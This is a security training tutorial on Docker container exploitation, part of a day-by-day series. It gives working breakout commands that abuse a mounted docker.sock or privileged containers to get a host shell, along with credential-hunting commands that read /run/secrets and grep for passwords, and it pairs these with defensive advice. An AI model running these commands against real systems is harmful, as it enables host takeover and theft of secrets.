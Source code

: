 # Day 23 – Containers & Docker Exploitation
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/44cf5738-fa5e-4b9a-bdaf-aeb7ea5018ed" />

## Objective
Understand container fundamentals (Docker), common misconfigurations, and how attackers abuse containers for privilege escalation and lateral movement. Includes detection and defensive advice. All commands and exploits should be tested only in authorized lab environments.

---

## 1️⃣ Container Basics
Containers (Docker, Podman) isolate applications using kernel namespaces and cgroups. They are lightweight and often run as services in production. Containers share the host kernel — misconfigurations can allow container breakout and host compromise.

Key Docker components:
- `dockerd` — Docker daemon (runs on host, usually as root)  
- `/var/run/docker.sock` — Docker socket used to control Docker (highly privileged)  
- Images and containers (`docker images`, `docker ps`)  

---

## 2️⃣ Enumeration from Inside a Container
If you get a shell inside a container, enumerate to find breakout vectors:

```bash
# Basic container info
cat /etc/os-release
ps aux
env | sort
ls -la /proc/1/root  # check host mount points

# Check if Docker socket is mounted
ls -la /var/run/docker.sock
```
If `docker.sock` is accessible, you can control the Docker daemon from inside the container (host-level impact).

---

## 3️⃣ Common Misconfigurations & Exploits
- **Mounted Docker socket (`/var/run/docker.sock`)**: Allows remote control of Docker, can create privileged containers with host mounts to read/write host filesystem.
- **Privileged containers (`--privileged`)**: Give container almost full access to host capabilities.
- **Host volumes mounted into containers**: writable host dirs can be tampered with (e.g., `/etc`, `/root`).
- **Containers running as root user**: Process inside container runs as root UID, increasing impact if breakout occurs.
- **Exposed Docker API without TLS**: Remote daemon access allows full control.

Example: abusing docker.sock to get a host shell
```bash
# From container with access to docker.sock
docker -H unix:///var/run/docker.sock run --rm -v /:/host alpine chroot /host sh
```

Another technique: start a privileged container mounting host root
```bash
docker -H unix:///var/run/docker.sock run --rm -v /:/mnt --privileged alpine chroot /mnt sh
```

---

## 4️⃣ Container Escape Techniques
- **Mount host FS** using docker.sock (above).  
- **Kernel exploits**: since containers share the host kernel, kernel vulnerabilities can escape containers (same as Day 18).  
- **Misconfigured cgroups or capabilities**: containers with `CAP_SYS_ADMIN` can perform dangerous operations (mounting, device access).  
- **Writable /proc or kernel interfaces**: abused in some escapes.

---

## 5️⃣ Lateral Movement via Containers
Containers often hold secrets (API keys, mounted creds, config files). Attackers may:
- Read mounted config files for credentials.
- Connect to internal services exposed on container networks.
- Use image registries with leaked credentials to pull additional images.

Commands to hunt credentials:
```bash
grep -R "password" /etc /var/www 2>/dev/null
cat /run/secrets/* 2>/dev/null || true
```

---

## 6️⃣ Detection & Defensive Measures
- **Do not mount `/var/run/docker.sock` into containers.** If required, use least-privilege proxies (e.g., dockerd rootless or API gateways).
- **Avoid privileged containers**; minimize capabilities (`--cap-drop ALL`, then add needed ones).
- **Run containers as non-root users** (`USER` in Dockerfile or `--user` flag).
- **Restrict host mounts** and use read-only mounts when necessary (`:ro`).
- **Use image scanning** for vulnerabilities and FIM for mounted volumes.
- **Monitor Docker API access** and audit `/var/run/docker.sock` usage via auditd.
- **Network segmentation**: separate container networks from critical services.
- **Runtime detection**: detect processes performing `chroot`, mounting `fuse`, or calling `pivot_root` from containers.

---

## 7️⃣ Practical Lab Tasks
1. Run a local Docker container and inspect processes:
```bash
docker run -it --rm alpine sh
ps aux
```
2. Simulate docker.sock abuse (on your lab host only):
```bash
# On host, mount docker.sock into a test container
docker run -it -v /var/run/docker.sock:/var/run/docker.sock --rm docker:stable-dind sh
# From inside, run a privileged container mounting host
docker run --rm -v /:/host --privileged alpine chroot /host sh
```
3. Build an image that runs as non-root and verify user:
```dockerfile
FROM alpine
RUN adduser -D appuser
USER appuser
CMD ["sh"]
```
4. Scan images for known CVEs using image scanners (Trivy, Clair, etc.).

---

## 8️⃣ Further Reading
- Docker security docs: https://docs.docker.com/engine/security/
- Container breakout writeups and CVEs on Exploit-DB and GitHub
- Kubernetes pod escape techniques and mitigations (if Kubernetes is in scope)

---

⚠️ Ethics & Safety
Only test these techniques in isolated lab environments or with explicit authorization. Container breakout on production systems is illegal and harmful.

---

📢 Follow CyberSecPlayground on Telegram for more container exploitation and defensive techniques: https://t.me/cybersecplayground
